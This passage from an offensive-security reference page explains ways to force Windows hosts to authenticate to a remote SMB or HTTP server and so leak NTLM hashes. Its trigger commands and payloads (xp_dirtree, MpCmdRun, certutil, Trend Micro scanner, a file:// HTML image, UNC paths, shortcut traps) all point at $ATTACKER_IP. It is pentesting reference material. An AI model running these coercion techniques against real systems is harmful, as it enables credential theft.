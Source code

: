 On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web/inputs/xss.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```
![](file://$ATTACKER_IP/something/something.png)
```

### Web server file inclusion

[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Certutil

```bash
certutil.exe -syncwithWU \\$ATTACKER_IP\share
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.
